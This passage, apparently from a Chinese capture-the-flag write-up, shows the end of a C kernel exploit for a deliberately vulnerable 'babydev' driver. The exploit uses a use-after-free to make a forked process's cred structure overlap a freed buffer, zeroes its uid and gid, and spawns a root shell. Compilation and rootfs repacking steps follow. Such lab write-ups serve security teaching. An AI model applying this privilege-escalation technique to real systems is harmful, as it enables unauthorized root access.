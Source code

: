 ```c
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
    ioctl(fd1, 0x10001, 0xa8);

    // 释放 fd1
    close(fd1);

    // 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
    int pid = fork();
    if(pid < 0)
    {
        puts("[-] fork error!");
        exit(0);
    }

    else if(pid == 0)
    {
        // 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
        char zeros[30] = {0};
        write(fd2, zeros, 28);

        if(getuid() == 0)
        {
            puts("[+] root now.");
            system("/bin/sh");
            exit(0);
        }
    }

    else
    {
        wait(NULL);
    }
    close(fd2);

    return 0;
}

```

使用`gcc exploit.c -static -o exploit`编译exp，kernel中没有libc；

将exp可执行文件放到解压后的目录core/tmp下，重新打包后，将文件系统映像放回主目录；

```
cp exploit core/tmp
cd core
find . | cpio -o --format=newc > rootfs.cpio
cp rootfs.cpio ..
cd ..
```
